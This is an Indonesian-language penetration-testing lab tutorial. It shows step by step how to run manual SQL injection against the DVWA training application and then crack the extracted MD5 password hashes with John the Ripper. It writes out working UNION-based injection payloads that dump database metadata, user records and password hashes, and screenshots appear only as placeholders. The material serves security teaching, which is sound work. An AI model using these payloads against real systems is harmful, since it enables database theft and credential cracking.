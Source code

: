Lesson 6: Manual SQL Injection, John the Ripper

1. Buka browser di backtrack kemudian akses alamat ip dari server metasploit.

2. Akses halaman login DVWA.

3. Masukkan user dan password.

4. Klik tab DVWA Security, atur tingkat keamanan ke low dan klik submit.
picture(10)

5. Klik tab SQL Injection.
picture(22)

6. Normalnya, kita bisa memasukkan angka pada field yang tersedia untuk menampilkan data user yang sesuai idnya dengan input. 
picture(23)

7. Namun kita bisa menambahkan karakter "%' or '0' = '0" untuk menampilkan semua data. Perbandingan nilai '0' = '0' akan selalu memberikan nilai benar yang mengakibatkan semua data yang ada di database ditampilkan.
picture(24)

8. Kita juga bisa mengakses versi dari database yang digunakan dengan memasukkan potongan program berikut.
"%' or 0=0 union select null, version() #"
picture(25)

9. Mendapatkan user dari database.
"%' or 0=0 union select null, user() #"
picture(26)

10. Mendapatkan nama database.
"%' or 0=0 union select null, database() #"
picture(27)

11. Mendapatkan semua nama tabel yang berhubungan dengan user di information_schema
"%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%' #"
picture(28)

12. Mendapatkan semua field di information_schema di tabel user.
"%' and 1=0 union select null, concat(table_name,0x0a, column_name) from information_schema.columns where table_name = 'users' #"
picture(29)

13. Menampilkan semua isi dari tabel users.
"%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #"
picture(30)

14. Dari hasil sebelumnya, kita bisa membuat password hash file?????????????, ambil username dan hash file dari user, kemudian letakkan di notepad atau gedit dengan format USERNAME:PASSWORDHASH.
picture(31)

15. Simpan ke /pentest/passwords/john dengan nama dvwa_password.txt.
picture(32)

16. Jalankan perintah berikut.
"./john --format=raw-MD5 dvwa_password.txt"
picture(33)


